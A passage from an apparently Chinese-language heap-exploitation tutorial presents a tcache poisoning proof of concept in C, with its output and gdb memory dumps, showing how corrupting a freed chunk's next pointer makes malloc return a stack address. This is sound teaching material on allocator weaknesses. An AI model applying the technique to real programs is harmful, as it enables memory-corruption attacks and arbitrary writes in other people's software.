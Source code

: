 于是 chunk p2 被 chunk p3 覆盖了。

### tcache_poisoning

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

int main() {
    intptr_t *p1, *p2, *p3;
    size_t target[10];
    printf("Our target is a stack region at %p\n", (void *)target);

    p1 = malloc(0x30);
    memset(p1, 0x41, 0x30+8);
    fprintf(stderr, "Allocated victim chunk with requested size 0x30 at %p\n", p1);

    fprintf(stderr, "Freed victim chunk to put it in a tcache bin\n");
    free(p1);
    fprintf(stderr, "Emulating corruption of the next ptr\n");
    *p1 = (int64_t)target;

    fprintf(stderr, "Now we make two requests for the appropriate size so that malloc returns a chunk overlapping our target\n");
    p2 = malloc(0x30);
    memset(p2, 0x42, 0x30+8);
    p3 = malloc(0x30);
    memset(p3, 0x42, 0x30+8);
    fprintf(stderr, "The first malloc(0x30) returned %p, the second one: %p\n", p2, p3);
}
```

```text
$ ./tcache_poisoning
Our target is a stack region at 0x7fffffffdcc0
Allocated victim chunk with requested size 0x30 at 0x555555756670
Freed victim chunk to put it in a tcache bin
Emulating corruption of the next ptr
Now we make two requests for the appropriate size so that malloc returns a chunk overlapping our target
The first malloc(0x30) returned 0x555555756670, the second one: 0x7fffffffdcc0
```

该实例通过破坏 tcache bin 中 chunk 的 fd 指针，将其指向不同的位置，从而改变 `tcache_entry` 的 `next` 指针，在 malloc 时在任意位置得到 chunk。而 `tcache_get()` 函数没有对此做任何的检查。

分配一个 chunk p1 后释放，该 chunk 将被放入相应的 tcache bin，其 fd 指针被清空：

```text
gdb-peda$ x/10gx (void *)p1-0x10
0x555555756660: 0x0000000000000000      0x0000000000000041  <-- chunk p1 [be freed]
0x555555756670: 0x0000000000000000      0x4141414141414141    <-- fd pointer
0x555555756680: 0x4141414141414141      0x4141414141414141
0x555555756690: 0x4141414141414141      0x4141414141414141
0x5555557566a0: 0x4141414141414141      0x0000000000020961
gdb-peda$ vmmap heap
Start              End                Perm      Name
0x0000555555756000 0x0000555555777000 rw-p      [heap]
gdb-peda$ x/12gx 0x0000555555756000+0x10
0x555555756010: 0x0000000000010000      0x0000000000000000  <-- counts
0x555555756020: 0x0000000000000000      0x0000000000000000
0x555555756030: 0x0000000000000000      0x0000000000000000
0x555555756040: 0x0000000000000000      0x0000000000000000
0x555555756050: 0x0000000000000000      0x0000000000000000
0x555555756060: 0x0000555555756670      0x0000000000000000  <-- entries
```